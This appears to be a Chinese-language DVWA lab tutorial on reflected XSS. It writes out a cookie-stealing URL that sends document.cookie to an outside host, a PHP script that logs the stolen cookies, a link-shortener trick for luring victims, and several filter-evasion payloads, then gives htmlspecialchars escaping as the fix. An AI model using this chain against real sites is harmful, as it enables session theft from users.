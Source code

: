 ## 1. 什么是DVWA

一个用来练习各种漏洞利用的WEB漏洞实验环境，基于PHP/MYSQL的Web应用。[官网](http://www.dvwa.co.uk/)

## 2. 主要模块
**XSS 跨站脚本攻击**  
**暴力破解**  
**命令执行**  
**CSRF 跨站请求伪造**  
**SQL 注入**  
**文件上传**  

## 3. XSS 跨站脚本攻击  
Chrome浏览器默认开启xss监听，测试前须命令行启动浏览器，关闭监听。
````
cd /Applications/Google Chrome.app/Contents/MacOS

./Google Chrome --disable-xss-auditor
````

**反射型**：非持久化，用户主动点击带有恶意URL，发送请求到后端，后端返回带有恶意脚本的页面。  
假设某网站 A.com 的某个输入框存在XSS漏洞，能通过输入框或者URL传入脚本执行。比如它的后端php代码是这样的
````php
echo 'Hello ' . $_GET[ 'name' ];
````
那么，就可以在 url中传入参数name。生成 **恶意url**：
````js
A.com/?name=<script>window.open('B.com/ck.php?c='+document.cookie)</script>
````
ck.php文件代码如下，将获得的cookie存入cookie.txt。
````
$cookie = $_GET['c']; 
$ip = getenv ('REMOTE_ADDR'); 
$time=date("j F, Y, g:i a"); 
$referer=getenv ('HTTP_REFERER'); 
$fp = fopen('cookie.txt', 'a'); 
fwrite($fp, 'Cookie: '.$cookie."\n".'IP: '.$ip."\n".'Date and Time: '.$time."\n".'Referer: '.$referer."\n\n"); 
fclose($fp); 
````
通过短域名生成网站,将上诉 **恶意 url** 映射成类似http://dwz.cn/B4l3Ydke  的网址欺骗用户，发送给已经在A.com登录的用户，用户点击之后，cookie信息就会自动保存到 B.com下的cookie.txt中。

通常，后端不会这么如此信任用户输入，会对各种输入进行正则过滤限制。针对各种过滤出现了对应的恶意 payload, 通过事件、通过协议、通过请求。
````js
<Script> 恶意代码 </script>
<sc<script>ript> 恶意代码 </script>
<img onerror=" 恶意代码 " >
<div style="position:fixed;top:0;left:0;bottom:0;right:0;" onclick=" 恶意代码 "></div>
...
````
以下代码通过base64编码，依旧能实现恶意攻击。
````
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiMSIpOzwvc2NyaXB0Pg=="></object>
````
有效的解决方法是通过转义，通过 htmlspecialchars，将具有特殊意义的字符进行转义。
````
&  变为 &amp
" 变为 &quot
'  变为 &#039
< 变为 &lt
>  变为 &gt
````
